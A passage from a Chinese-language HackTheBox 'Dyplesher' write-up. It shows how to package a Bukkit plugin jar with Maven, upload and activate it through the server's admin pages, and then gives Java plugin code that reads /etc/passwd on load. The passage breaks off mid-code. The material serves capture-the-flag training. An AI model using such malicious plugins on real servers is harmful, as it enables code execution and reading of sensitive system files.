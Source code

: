 
#### <a class="reference-link" name="Step%204"></a>Step 4

然后需要将其打包成jar包，首先右键`src -&gt; main -&gt; resources`，新建`plugin.yml`文件，填入plugin的相关信息：

```
name: mineplug
version: 1.0
main: htb.dyplesher.mineplug.mineplug
```

项目的目录结构：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016474c63c9c522f1d.png)

在IDEA的最右侧隐藏栏上，选择`Maven Projects -&gt; mineplug -&gt; Lifecycle`，右键`package -&gt; Run Maven Build`，生成的jar包在target文件夹下。

### <a class="reference-link" name="%E4%B8%8A%E4%BC%A0%E6%8F%92%E4%BB%B6"></a>上传插件

然后将其通过`/home/add`上传到服务器上：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01cd5854641bd6b759.png)

通过`/home/reload`，输入插件名mineplug来激活：

[![](https://p2.ssl.qhimg.com/t01f7ec97bf83ce51ec.png)](https://p2.ssl.qhimg.com/t01f7ec97bf83ce51ec.png)

在Console处可以看到被激活的插件：

[![](https://p0.ssl.qhimg.com/t01e318fc900ceb5899.png)](https://p0.ssl.qhimg.com/t01e318fc900ceb5899.png)

选择unload可以卸载相应的插件：

[![](https://p0.ssl.qhimg.com/t0169ae151e49355e66.png)](https://p0.ssl.qhimg.com/t0169ae151e49355e66.png)

### <a class="reference-link" name="%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96"></a>任意文件读取

既然上传的jar包可以被运行，就意味着可以利用它来执行一些系统命令或是读取一些敏感文件：

```
package htb.dyplesher.mineplug;

import org.bukkit.plugin.java.JavaPlugin;

import java.io.BufferedReader;
import java.io.FileReader;
import java.io.IOException;

public class mineplug extends JavaPlugin `{`

    @Override
    public void onEnable() `{`
        getLogger().info("onEnable is called!");

        try `{`
            String Line;
            BufferedReader br = new BufferedReader(new FileReader("/etc/passwd"));
            while ((Line = br.readLine()) != null) `{`
                getLogger().info(Line);
            `}`
```